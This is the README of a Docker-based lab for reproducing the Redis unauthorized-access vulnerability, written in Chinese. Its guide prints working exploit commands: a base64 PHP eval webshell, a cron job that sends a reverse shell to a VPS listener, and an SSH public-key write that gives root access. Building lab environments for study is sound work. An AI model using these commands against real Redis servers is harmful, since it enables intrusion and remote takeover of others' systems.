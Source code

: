 # redis-unauth-hub
基于docker的redis未授权访问漏洞复现环境，用于复现 redis写计划任务、redis写webshell、redis写ssh公钥

你是否遇到过这样的烦恼：
1. redis未授权访问漏洞复现困难，dockerhub中的redis镜像仅有redis服务
2. 因为ubuntu的限制，redis无法写计划任务反弹shell
3. 复现redis写计划任务、redis写webshell、redis写ssh公钥需要分别搭建虚拟机，并安装相应服务

`redis-unauth-hub` 帮你解决

### 使用方法

#### 自行构建docker镜像

1. 下载/克隆 仓库到本地
```
git clone https://github.com/ajisai-babu/redis-unauth-hub
```
2. 构建docker镜像
```
docker build -t redis-unauth-hub .
```
3. 开启容器
```
docker run -d -p 10081:80 -p 10022:22 -p 16379:6379 redis-unauth-hub
```

备注：镜像默认开启了 22 、80、6379 端口，可以使用如下命令查看
```
docker inspect redis-unauth-hub
```

#### dockerhub拉取镜像(不推荐)
```
docker pull yanglisianthus/redis-unauth-hub

docker run -d -p 10081:80 -p 10022:22 -p 16379:6379 redis-unauth-hub
```
### 复现指南 
> 下列复现均是在本地（Kali Linux）搭建的docker环境

推荐工具 ： https://github.com/yuyan-sec/RedisEXP

1. 写webshell：
```
./RedisEXP -m shell -r 127.0.0.1 -p 16379 -rp /var/www/html -rf shell.php -s PD9waHAgZXZhbCgkX1JFUVVFU1RbY21kXSk7Pz4= -b
```
访问 http://127.0.0.1:10081/shell.php?cmd=phpinfo();

2. 写计划任务：

VPS服务器开启监听
```
nc -lvnp 9001
```
```
./RedisEXP -m cron -r 127.0.0.1 -p 16379 -L VPS服务器IP地址 -P 9001
```

3. 写ssh公钥
```
./RedisEXP  -m ssh -r 127.0.0.1 -p 16379 -u root -s "自己替换公钥字符串"
```
连接
```
ssh root@127.0.0.1 -p10022 -i id_rsa
```

### 为什么没有主从复制
本仓库提供的redis版本为3.2.11，没有主从复制功能
复现主从复制只需要拉取一个redis 4.x 或 5.x 版本的镜像即可复现，无需其他服务，如
```
docker run -p 6379:6379 -d damonevking/redis5.0
```
